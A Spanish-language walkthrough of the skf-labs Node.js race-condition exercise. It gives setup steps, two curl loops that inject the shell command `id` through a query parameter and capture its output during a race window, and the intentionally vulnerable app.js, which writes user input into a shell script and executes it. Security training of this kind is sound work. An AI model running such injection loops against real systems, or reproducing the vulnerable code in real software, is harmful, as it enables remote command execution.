


# Explotación y guía paso a paso de Race Condition

## Instalación 

[Laboratorio skf-labs para practicar múltiples vulnerabilidades](https://github.com/blabla1337/skf-labs)

Acción primer laboratorio (sin validación de signature)

```bash
git clone https://github.com/blabla1337/skf-labs
cd skf-labs
cd nodeJs
cd RaceCondittion
npm install
npm start
```

Acción: segundo laboratorio (con validación de signature)

```bash
cd RaceCondittion
npm install
npm start
```

Resultado: ejemplo del primer laboratorio

```bash
> racecondition@0.0.1 start
> nodemon app

[nodemon] 2.0.14
[nodemon] to restart at any time, enter `rs`
[nodemon] watching path(s): *.*
[nodemon] watching extensions: js,mjs,json
[nodemon] starting `node app.js`
Listening on port 5000...!!!
```


Explicación: por `localhost:5000` tenemos este laboratorio montado

---
## Explotación 

### Race Condition con cURL

#### 1. Uso de cURL en bucles `while`

Hemos usado dos comandos `while` que ejecutan peticiones `GET` de manera continua con `curl` para provocar y observar una condición de carrera en una aplicación web:

##### Primera ventana: ejecución continua del endpoint `run`

```bash
while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep "Check this out" | html2text | xargs; done
```

- Ejecutamos repetidamente el endpoint `/` con el parámetro `action=run`.
    
- El resultado HTML se filtra con `grep` para extraer la línea que contiene `Check this out`.
    
- `html2text` convierte HTML a texto plano.
    
- `xargs` limpia los espacios y saltos de línea.
    

Este bucle queda esperando hasta que aparezca algo en `hello.txt` generado por el servidor, como por ejemplo un comando inyectado desde otro endpoint.

**Nota:** para instalar `html2text`

```bash
apt install html2text
```

##### Segunda ventana: ejecución del endpoint `validate`

```bash
while true; do curl -s -X GET 'http://localhost:5000/?person=`id`&action=validate'; done
```

- Lanzamos peticiones continuas al endpoint con `action=validate` y un parámetro `person` que contiene un comando (`id`).
    
- Esto genera dinámicamente el archivo `hello.sh`, que se ejecuta y escribe el resultado en `hello.txt`.
    

---

#### 2. Explicación completa de la Race Condition

La aplicación Node.js recibe peticiones HTTP y escribe en archivos del sistema como `hello.sh` y `hello.txt`. Al lanzar peticiones concurrentes desde dos procesos distintos, generamos una condición de carrera.

**¿Cómo funciona?**

- En una ventana, realizamos continuamente peticiones a `/?action=run`, que lee y muestra el contenido de `hello.txt`.
    
- En la otra ventana, enviamos constantemente peticiones con `action=validate` que escriben un comando (`id`) dentro de `hello.sh`, el cual luego se ejecuta escribiendo su salida en `hello.txt`.
    
- Si el tiempo entre la creación de `hello.txt` y su eliminación por `boot_clean()` es lo suficientemente largo, y la otra ventana alcanza a leer ese archivo justo en ese intervalo, logramos capturar la salida del comando antes de que se borre.
    

**Resultado observado:**

El bucle de lectura captura salidas como:

```
Check this out: uid=1000(metahumo) gid=1001(metahumo) grupos=1001(metahumo)...
```

Primero quedamos en escucha digamos con el primer bucle



Al ejecutar, si esperamos debería salir el comando inyectado. Ya que alcanzamos la condición de carrera al visualizar un archivo que se generaba pero se borraba inmediatamente. Esto de interceptar algo justo entre que se ha creado/registrado y se va a borrar es lo que se conoce como **Race Condition**



**Conclusión:**

Este comportamiento confirma una **condición de carrera**, donde dos procesos (crear y borrar `hello.txt`) se ejecutan sin sincronización. La ejecución concurrente nos permite ver información sensible que, en teoría, debería eliminarse antes de que sea accesible. Esta explotación demuestra cómo un atacante puede abusar del tiempo entre operaciones de escritura y limpieza para leer información crítica.

Debido a la ausencia de controles de concurrencia, el acceso simultáneo a recursos compartidos permite resultados no previstos, en este caso, una ejecución remota de comandos y su lectura. Este es un ejemplo claro y didáctico de una Race Condition explotable en aplicaciones web mal diseñadas.

La web que manejamos tiene el siguiente código `app.js` 

```js
const express = require("express");
const app = express();
const { exec } = require("child_process");
const { execSync } = require("child_process");
const fs = require("fs");

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  let hello = "";
  let action = req.query.action ? req.query.action : "run";
  if (action === "validate") {
    let person = req.query.person ? req.query.person : "Default User";
    let valid = boot_validate(person);
    if (valid == "") {
      boot_clean();
    }
  } else if (action == "reset") {
    boot_clean();
    boot_reset();
    boot_run();
  } else {
    boot_run();
    try {
      hello = fs.readFileSync("hello.txt", "utf8").toString();
    } catch (error) {
      hello = "Important hello file is missing, please reset.";
      boot_clean();
      boot_reset();
      boot_run();
    }
  }
  res.render("index.ejs", { action: action, hello: hello });
});

app.use(function (req, res) {
  res.status(404).render("404.ejs");
});

const boot_validate = (person) => {
  fs.writeFileSync("hello.sh", 'echo "' + person + '" > hello.txt');
  exec("echo 'hello.sh updated -- " + Date.now() + "' > log.txt");
  exec("echo 'hello.sh cleaned -- " + Date.now() + "' >> log.txt");
  exec("bash hello.sh");
  const valid = () => {
    return execSync(
      "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh"
    ).toString();
  };
  return valid();
};

const boot_clean = () => {
  exec(`rm hello.txt`);
};

const boot_run = () => {
  exec(`bash hello.sh`);
};

const boot_reset = () => {
  fs.writeFileSync("hello.sh", "echo 'Default User' > hello.txt");
};

const port = process.env.PORT || 5000;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

---


